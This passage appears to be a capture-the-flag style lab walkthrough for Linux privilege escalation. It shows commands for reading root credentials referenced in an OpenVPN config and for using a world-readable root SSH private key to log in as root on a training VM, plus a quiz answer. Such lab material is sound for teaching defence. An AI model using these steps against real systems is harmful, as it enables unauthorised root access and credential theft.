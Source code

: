 * List the contents of the user's home directory:

```bash
ls /home/user
```

> Note the presence of a __myvpn.ovpn__ config file. View the contents of the file:

```bash
cat /home/user/myvpn.ovpn
```

* The file should contain a reference to another location where the root user's credentials can be found. Switch to the root user, using the credentials:

```bash
su root
```

> __Remember to exit out of the root shell before continuing!__

---

* Answer the questions below
* What file did you find the root user's credentials in?   

```
/etc/openvpn/auth.txt
```


## Task 18: Passwords & Keys - SSH Keys

* Sometimes users make backups of important files but fail to secure them with the correct permissions.

* Look for hidden files & directories in the system root:

```bash
ls -la /
```

> Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```bash
ls -l /.ssh
```

> Note that there is a world-readable file called __root_key__. Further inspection of this file should indicate it is a __private SSH key__. The name of the file suggests it is for the root user.

* Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```bash
chmod 600 root_key
```

* Use the key to login to the Debian VM as the root account:

```bash
ssh -i root_key root@10.10.85.244
```
